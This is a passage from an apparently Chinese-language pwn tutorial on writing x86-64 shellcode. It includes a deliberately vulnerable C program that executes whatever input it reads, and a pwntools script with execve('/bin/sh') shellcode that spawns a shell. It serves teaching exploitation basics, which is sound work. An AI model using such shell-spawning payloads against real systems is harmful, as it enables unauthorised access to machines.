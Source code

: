附：[linux 系统调用\_linux 系统调用号-CSDN 博客](https://blog.csdn.net/weixin_51055545/article/details/128722431)

## shellcode 编写

### 尝试

测试程序：

```plain
#include<stdio.h>
#include<stdlib.h>

int main()
{
void *p = mmap(0x20240000, 0x1000uLL, 7, 34, -1, 0LL);
void (*a)(void);
puts("shellcode:");
read(0,p,0x100);
((void (*)(void))p)();
return 0;
}
```

编译命令：

```plain
gcc -o test test.c
```

首先，让我们自己写一个实现一个简单逻辑调用 execve("/bin/sh\\x00",0,0) 的 shellcode

调用了 execve 函数，三个参数分别是是"/bin/sh"字符串地址，0,0

两个为 0 的参数好写，我们只需要用 mov 指令将 0 赋值即可

/bin/sh字符串地址怎么办呢？这时我们就要用到push和rsp的关系了

因为 push 会将一个值直接压入栈顶，那么执行 push 后 rsp 的值就是我们 push 的这个值的地址

那么我们只要把/bin/sh\\x00 转换成 16 进制 ascall 码 push 后再把 rsp 的值赋值给 rdi(第一参数) 即可

但是 push 接立即数的话只能 push 四个字节，所以我们要先把值存到寄存器中再 push

不过根据小端序的原理，每个字母需要倒过来，

然后查出 execve 的系统调用号为 59

就可以写出以下 shellcode

```plain
from pwn import *
context.log_level='debug'
context(os='linux',arch = 'amd64')
io = process('./test')

shellcode = asm('''
    mov rbx, 0x0068732f6e69622f
    push rbx
    mov rdi,rsp
    mov rsi,0
    mov rdx,0
    mov rax,59
    syscall
''')
io.sendafter(':\n',shellcode)
io.interactive()
```
